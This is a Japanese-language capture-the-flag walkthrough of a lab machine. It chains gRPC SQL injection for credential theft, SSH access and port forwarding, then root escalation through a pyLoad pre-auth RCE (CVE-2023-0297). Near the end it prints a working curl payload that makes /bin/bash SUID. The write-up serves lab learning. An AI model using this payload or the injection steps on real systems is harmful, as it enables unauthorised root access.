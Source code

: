 #### nmap
![](../images/20230901054025.png)

Webにアクセスすると文字化けして表示されない
![](../images/20230901054100.png)

port50051について検索するとgRPCで使用されるポートらしい
https://documentation.softwareag.com/webmethods/compendiums/v10-11/C_API_Management/index.html#page/api-mgmt-comp/to-grpc_configuration_7.html

下のページにはSQL Injectionの脆弱性があることがかかれている
https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9

grpcを使うためのツールをダウンロードする
https://github.com/fullstorydev/grpcui/releases/tag/v1.3.1

```shell
./grpcui -plaintext 10.10.11.214:50051
```
![[Pasted image 20230901055146.png]]

コマンドを実行すると自動的にWebページが開く
![](../images/20230901055330.png)

デフォルトのユーザー名とパスワードを検索するとadmin/adminになっている
![](../images/20230901055439.png)

![](../images/20230901060439.png)


ID番号とtokenが表示されるのでこれを「getInfo」の画面で入力する
![](../images/20230901060635.png)

ここでBurp suiteを起動して受信する
（デフォルトのプロキシ設定ではうまく受信しなかったのでFoxyproxyを使った）
Repeateに送って検証する
![](../images/20230901061158.png)

「’」を入力してSQL Injectionの確認をする
200で帰ってくるので脆弱性があることが確認できる

![](../images/20230901203446.png)

![](../images/20230901204029.png)

union selectでユーザー名とパスワード表示させる
![](../images/20230901204310.png)

#### SSH接続

判明したユーザー名とパスワードでSSH接続をする

![](../images/20230901204530.png)

#### 権限昇格

「sudo -l」やlinpeas.shなどを試しても特に何も得られない
開いているポートを確認してみるとローカルで8000番ポートが開いているのが分かる
![](../images/20230901204809.png)

sshでローカルポートフォワーディングを実施する（新しいコンソールで実施した方が確実）
```shell
ssh -L 8888:127.0.0.1:8000 sau@10.10.11.214
```

![](../images/20230901213316.png)

ブラウザに「127.0.0.1:8888」と入力すると「pyLoad」の画面が出てくる
![](../images/20230901213448.png)

pyloadのバージョンを確認する

![](../images/20230901213646.png)

「pyload 0.5.0 exploit」で検索するとRCEが見るかる
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

このページの「Exploit Code」を編集して使う
実行後に「/bin/bash -p」を実行するとルートになれる
```shell
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

```shell
/bin/bash -p
```

![](../images/20230901214029.png)


